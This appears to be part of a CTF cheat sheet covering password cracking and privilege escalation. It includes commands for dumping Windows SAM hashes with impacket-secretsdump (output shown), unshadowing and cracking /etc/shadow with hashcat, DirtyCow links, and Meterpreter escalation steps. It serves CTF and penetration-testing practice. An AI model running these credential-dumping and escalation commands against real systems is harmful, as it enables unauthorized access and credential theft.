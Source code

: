 ## Password Cracking
* If there is `JOHN` in the title/text/hint, its mostly reference to `JOHN the ripper` for bruteforce passwords/hashes.
  * Command : `./john -show <PASS_FILE>`
  * Better Command : `john output.hash --wordlist=/usr/share/wordlists/rockyou.txt`
* To crack Well known Hashes (CTF Related Password Cracking),use [Link](https://hashes.org)
* To get System User Hashes, we can follow this method
  ```
  root@kali:/mnt/vhd/Windows/System32/config# cp SAM SYSTEM ~/CTF/
  root@kali:/mnt/vhd/Windows/System32/config# cd ~/CTF/
  root@kali:~/CTF# ls
  SAM  SYSTEM  
  root@kali:~/CTF# mkdir Backup_dump
  root@kali:~/CTF# mv SAM SYSTEM Backup_dump/
  root@kali:~/CTF# cd Backup_dump/
  root@kali:~/CTF/Backup_dump# ls
  SAM  SYSTEM
  root@kali:~/CTF/Backup_dump# impacket-secretsdump -sam SAM -system SYSTEM local
  Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

  [*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
  [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
  Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  User:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
  [*] Cleaning up... 
  ```
* If we able to extract /etc/passwd and /etc/shadow file we can use
  * Command : `unshadow <PASSWD> <SHADOW>`
  * Use Hashcat to crack the password, here 500 is for format `$1$` Replace it accordingly.
  ```
  hashcat -m 500 -a 0 -o cracked.txt hashes.txt /usr/share/wordlists/rockyou.txt --force
  ```
  
## Privilige Escalation
* [Linux Priv Checker](https://github.com/sleventyeleven/linuxprivchecker)
* [Lin Enum Script](https://github.com/rebootuser/LinEnum)
* [Unix Priv Check](https://github.com/pentestmonkey/unix-privesc-check)
* To Use DirtyCow : [Link](https://dirtycow.ninja/) -- Maybe more specifically : [Dirty.c](https://github.com/FireFart/dirtycow/blob/master/dirty.c)
* Trick to paste code in VI, with format on remote machines `set paste`
* Try `sudo -l` to check what can be run with no-password.
* For windows:
  * In meterpreter shell try `getsystem`
  * In meterpreter shell try `background` and then follow rest of commands...
  * search suggester
  * `use post/multi/recon/local_exploit_suggestor` (Example only)
  * `show options`
  * `set session 1`
  * `run`
  * If worked fine, else Try follow rest of commands...
  * Use this link: [FuzzySec Win Priv Exec](https://www.fuzzysecurity.com/tutorials/16.html)
  * Use this method: [Sherlock](https://github.com/rasta-mouse/Sherlock)
  * If current process doesnt own Privs, use `migrate <PID>` to get more Priviliges in Meterpretor.
* For Linux:
  * If `sudo -l` gives something like this...
  ```
  User www-data may run the following commands on bashed:
    (enemy : enemy) NOPASSWD: ALL
  ```
  We can try like below
  ```
  $ sudo -u enemy /bin/bash
  ```